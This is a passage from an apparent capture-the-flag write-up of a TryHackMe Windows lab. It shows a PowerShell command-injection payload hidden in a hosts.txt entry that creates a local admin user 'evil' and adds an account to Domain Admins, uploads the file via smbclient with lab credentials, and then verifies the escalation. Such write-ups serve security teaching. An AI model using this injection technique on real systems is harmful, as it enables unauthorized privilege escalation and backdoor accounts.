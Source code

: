 In this way the variable `$p` will be:

{% code overflow="wrap" %}
```powershell
$p = "Test-Connection -ComputerName ;net user evil hello!123 /add;net localgroup Administrators evil /add; Add-ADGroupMember -Identity 'Domain Admins' -Members 'buse';
```
{% endcode %}

Now upload the file:

```bash
 smbclient //fire.windcorp.thm/Users -U 'brittanycr%Password1234!'
```

This is the original `hosts.txt` file:

<figure><img src="../../.gitbook/assets/image (650).png" alt=""><figcaption></figcaption></figure>

Upload the new file:

```bash
put hosts.txt
```

After a few minutes we become Domain Admins and a new user `evil` is created:

{% code overflow="wrap" %}
```powershell
Get-ADGroupMember -Identity "Domain Admins" | Select-Object -ExpandProperty SamAccountName
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (652).png" alt=""><figcaption></figcaption></figure>

Now we can  RDP as `buse` and `psexec` as `evil` user (local Administrator) in order to dump the Flag3:
